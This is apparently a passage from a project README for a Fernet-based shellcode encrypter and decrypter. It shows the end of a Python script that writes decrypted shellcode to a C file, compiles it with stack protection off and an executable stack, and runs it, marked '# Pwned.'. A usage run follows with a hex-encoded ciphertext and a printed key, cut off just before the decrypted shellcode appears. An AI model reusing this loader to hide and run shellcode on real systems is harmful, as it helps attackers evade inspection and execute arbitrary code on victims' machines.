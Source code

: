 ```python
cShellcode.write(execute)
cShellcode.close()

decision = input("Would i try to execute a shellcode? [Y/N]  ")
if decision.lower() == "y" or decision.lower() == "yes":
	# compilation and execution of our decrypted shellcode
	os.system("gcc -fno-stack-protector -z execstack -m32 shellcode.c -o shellcode 2>/dev/null")
	os.system("./shellcode")	
	# Pwned.
else:
	print("\nExiting then.\n")
```
<p style="text-align: justify;">Example of use with shellcode execution.</p>

```sh
$ python3 decrypt.py "\x67\x41\x41\x41\x41\x41\x42\x65\x67\x6b\x69\x4e\x4b\x6e\x65\x53\x6c\x76\x7a\x5a\x71\x34\x70\x4c\x47\x52\x74\x38\x74\x6f\x4b\x63\x39\x4e\x50\x4e\x38\x41\x54\x70\x6f\x6c\x5a\x76\x73\x47\x63\x41\x6c\x67\x46\x54\x37\x52\x66\x46\x4e\x52\x31\x38\x4d\x53\x57\x49\x69\x53\x7a\x2d\x77\x69\x62\x36\x76\x53\x45\x69\x48\x51\x6b\x5a\x6c\x74\x62\x53\x52\x73\x35\x32\x52\x43\x59\x36\x78\x6c\x43\x45\x4c\x62\x78\x49\x53\x39\x58\x37\x6f\x6f\x42\x6a\x69\x38\x6e\x76\x65\x35\x73\x5f\x43\x46\x73\x37\x6c\x79\x52\x41\x50\x67\x65\x32\x35\x30\x65\x37\x6f\x38\x53\x4e\x6c\x44\x6c\x30\x36\x34\x4f\x33\x43\x71\x75\x6b\x31\x51\x6d\x65\x56\x71\x65\x52\x54\x47\x52\x46\x59\x4f\x79\x41\x47\x47\x4e\x77\x54\x59\x69\x71\x76\x49\x78\x76\x47\x4c\x32\x2d\x35\x34\x54\x62\x67\x38\x55\x46\x6f\x35\x30\x6a\x78\x79\x41\x6b\x35\x6f\x73\x47\x66\x46\x33\x48\x31\x31\x66\x49\x5f\x6e\x72\x6d\x5f\x36\x51\x65\x51\x43\x59\x65\x37\x6a\x4e\x34\x58\x4d\x6a\x5f\x35\x78\x62\x77\x65\x38\x33\x71\x73\x47\x7a\x78\x67\x49\x33\x36\x71\x56\x70\x47\x50\x4f\x47\x46\x54\x32\x38\x79\x75\x67\x6b\x77\x71\x37\x71\x52\x52\x35\x2d\x6f\x50\x34\x44\x4c\x42\x76\x33\x71\x59\x77\x67\x57\x35\x35\x49\x78\x36\x5a\x59\x48\x5a\x54\x4f\x4f\x6f\x38\x62\x76\x66\x79\x5a\x5a\x6e\x54\x6a\x4c\x51\x47\x38\x35\x77\x49\x67\x69\x46\x45\x77\x65\x59\x41\x4d\x67\x2d\x42\x69\x73\x6f\x4f\x58\x74\x76\x4c\x66\x6b\x32\x31\x33\x43\x67\x39\x68\x45\x64\x73\x64\x35\x48\x69\x65\x79\x55\x41\x48\x70\x76\x35\x39\x70\x41\x5a\x4d\x6b\x50\x39\x79\x65\x43\x6f\x4c\x37\x52\x58\x54\x5f\x69\x65\x72\x49\x30\x6c\x78\x73\x4d\x69\x46\x31\x75\x4e\x5f\x44\x54\x6f\x44\x35\x65\x4b\x65\x64\x6d\x58\x31\x36\x54\x57\x6a\x79\x50\x36\x68\x5f\x7a\x54\x67\x6c\x4d\x56\x55\x75\x63\x46\x76\x73\x68\x5f\x52\x69\x39\x78\x41\x4f\x61\x69\x6d\x6e\x57\x31\x42\x6f\x46\x37\x59\x48\x41\x52\x38\x70\x6a\x39\x68\x35\x50\x54\x69\x2d\x49\x2d\x38\x4f\x51\x4b\x37\x36\x44\x6e\x31\x76\x55\x4d\x76\x4c\x49\x65\x67\x79\x58\x31\x61\x4c\x45\x46\x56\x32\x6c\x46\x33\x5f\x32\x52\x34\x64\x42\x74\x61\x61\x74\x70\x46\x73\x36\x54\x79\x62\x5f\x72\x47\x49\x57\x64\x6e\x5a\x6f\x4f\x51\x66\x42\x61\x54\x31\x62\x33\x43\x47\x4b\x33\x63\x53\x71\x5a\x67\x45\x4d\x69\x42\x67\x47\x55\x77\x34\x6a\x4f\x79\x48\x4c\x47\x45\x5f\x74\x6e\x76\x4a\x54\x47\x71\x59\x69\x75\x58\x64\x49\x55\x64\x62\x66\x61\x62\x6d\x73\x6b\x67\x7a\x35\x58\x65\x6c\x37\x65\x31\x52\x6a\x58\x71\x76\x75\x4b\x4c\x73\x31\x52\x72\x43\x54\x2d\x6c\x77\x59\x77\x31\x63\x2d\x4c\x48\x4c\x4e\x62\x77\x5a\x4c\x78\x32\x61\x72\x7a\x6a\x39\x66\x71\x37\x62\x52\x34\x4e\x67\x45\x37\x6d\x70\x39\x56\x4e\x64\x38\x68\x34\x3d"

/--------------------------------/
 ***  Fernet AES Decrypter.  ***
/--------------------------------/


Loading key from key.key file, please wait ...


*** Key loading completed! Content: ***
 ------------------------------ 
 tCJp16dKRFfkskbfy6kew8_fkNk4EHIfv1et8BNaxRE= 

Trying to decrypt the shellcode using key provided ...
3..
2...
1...

Success!


*** Decrypted shellcode: ***
 ------------------------------ 
```